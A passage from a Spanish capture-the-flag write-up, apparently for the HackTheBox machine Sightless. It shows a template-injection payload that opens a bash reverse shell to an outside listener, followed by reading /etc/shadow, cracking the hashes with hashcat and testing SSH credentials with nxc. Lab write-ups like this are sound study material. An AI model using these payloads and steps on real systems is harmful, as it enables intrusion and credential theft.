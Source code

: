 para poder hacerlo vamos a tener que hacer lo siguiente.
vamos a ir al panel de chose connection y vamos a crear una nueva usando de driver MYSql

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118120300.png)

para cargar el payload malicioso hay que ponerlo en el apartado Database
en mi caso usare este

```sql
{{ process.mainModule.require('child_process').exec('bash -c "bash >& /dev/tcp/10.10.14.67/9999 0>&1"') }}
```

![[Pasted image 20250118120501.png]]

nos ponemos en eschucha con netcat

```bash
rlwrap -cAr nc -lvnp 9999
```

y le damos a test
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118120651.png)
y tenemos shell. lo curioso es que somos root

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118121100.png)

esto es curioso
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118121145.png)

vale estamos dentro de un docker y somos root
por lo que podrimamos leer el etc/shadow 

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118121441.png)

vemos un suuario michael al cual creo que podemos crekear la contraseña

para ello voy a usar hashcat

```bash
hashcat -m 1800 -a 0 -o resul.txt hash.txt /usr/share/wordlists/rockyou.txt
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118122223.png)

tenemos las password de los dos

por lo que voy a usar nxc para comprobar si valen para ssh
```bash
nxc ssh 10.10.11.32 -u user.txt -p passwd.txt
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118123102.png)

vemos que michael se puede por lo que vamos

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250118123444.png)
